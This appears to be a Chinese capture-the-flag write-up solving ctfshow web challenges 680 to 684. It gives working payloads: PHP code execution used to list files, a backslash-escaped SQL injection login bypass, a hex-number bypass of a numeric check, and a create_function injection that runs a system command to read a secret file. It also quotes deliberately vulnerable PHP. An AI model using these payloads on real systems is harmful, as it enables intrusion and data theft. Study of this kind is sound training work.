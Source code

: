 ## web680(disabled_func)

首先我输入了，`code=phpinfo();`

查看禁用了很多函数，

这里可以用蚁剑连上，但是什么也看不了

接着

查看一下当前目录

`code=var_dump(scandir('.'));`

发现

```
array(4) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(9) "index.php"
  [3]=>
  string(21) "secret_you_never_know"
}

post code to run!
```

直接访问secret_you_never_know就是flag

## web681(构造万能密码)

随便给一个字符，他会返回

```
select count(*) from ctfshow_users where username = '11' or nickname = '11'
```

我输入单引号，他会直接删掉

用斜线试试，将单引号转义

```
select count(*) from ctfshow_users where username = '11\' or nickname = '11\'
```

构造万能密码

输入`||1#\`

```
select count(*) from ctfshow_users where username = '||1#\' or nickname = '||1#\'
```

得到flag

## web683(16进制绕过)

```php
 <?php

   error_reporting(0);
   include "flag.php";
   if(isset($_GET['秀'])){
       if(!is_numeric($_GET['秀'])){
          die('必须是数字');
       }else if($_GET['秀'] < 60 * 60 * 24 * 30 * 2){
          die('你太短了');
       }else if($_GET['秀'] > 60 * 60 * 24 * 30 * 3){
           die('你太长了');
       }else{
           sleep((int)$_GET['秀']);
           echo $flag;
       }
       echo '<hr>';
   }
   highlight_file(__FILE__); 
```

16进制被int函数转成0

![image-20240317154752728](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240317154752728.png)

payload

```
秀=0x76A6FA
```

## web684(create_function)

```php
 <?php
$action = $_GET['action'] ?? '';
$arg = $_GET['arg'] ?? '';

if(preg_match('/^[a-z0-9_]*$/isD', $action)) {
    show_source(__FILE__);
} else {
    $action('', $arg);
}
```

> ```php
> $result = $value1 ?? $value2;
> ```
>
> 在这个例子中，如果 `$value1` 不为 `null`，则 `$result` 将被赋值为 `$value1`，否则将被赋值为 `$value2`。

payload

```
?action=%5ccreate_function&arg=}system("cat /secret_you_never_know");//
```

%5c是转义符
